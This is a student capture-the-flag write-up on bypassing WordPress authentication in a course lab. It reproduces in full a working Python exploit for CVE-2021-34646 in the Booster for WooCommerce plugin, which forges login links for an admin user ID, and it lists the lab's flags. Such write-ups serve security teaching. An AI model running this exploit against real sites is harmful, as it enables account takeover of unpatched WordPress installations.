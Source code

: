 # Week #4: CTF WEB

## Objective

Wordpress is a software that makes the creation and management of content and websites easy. One of its most appreciated characteristics is its modularity which allows the use of plugins to expand its functionalities, for example, with one simple plugin we can create an online store.

The plugins can be developed by anyone, which brings certain security risks. Our objective is to find if there are any vulnerabilities in the given instance of wordpress in order to bypass authentication.

## Recognition:

![](./images/ctf4/1.png)

*Figure 1: Versions of Wordpress and plugins used.*

| Software                       | Version |
| ------------------------------ | ------- |
| Wordpress                      | 5.8.1   |
| WooCommerce Plugin             | 5.7.1   |
| Booster for WooCommerce Plugin | 5.4.3   |

We also managed to identify two usernames: **admin** and **Orval Sanford**.

![](./images/ctf4/2.png)

*Figure 2: Some usernames of the website users.*

## Vulnerabilities

### Flag #1: flag{CVE-2021-034646}

![](./images/ctf4/3.png)

*Figure 3: CVE-2021-34646 details (https://nvd.nist.gov/vuln/detail/CVE-2021-34646).*

### Flag #2: flag{1316ecfe4c1e0219567eb92465578de6}

![](./images/ctf4/4.png)

*Figure 4: CVE-2021-34646 exploit (https://www.exploit-db.com/exploits/50299).*

```python
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()

for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

![](./images/ctf4/5.png)

*Image 5: Executing the exploit.*

![](./images/ctf4/6.png)

*Image 6: Opening one of the links created by the exploit.*

![](./images/ctf4/7.png)

*Image 7: Accessing http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php with **admin** privileges.*

![](./images/ctf4/8.png)

 *Image 8: Accessing private post.*
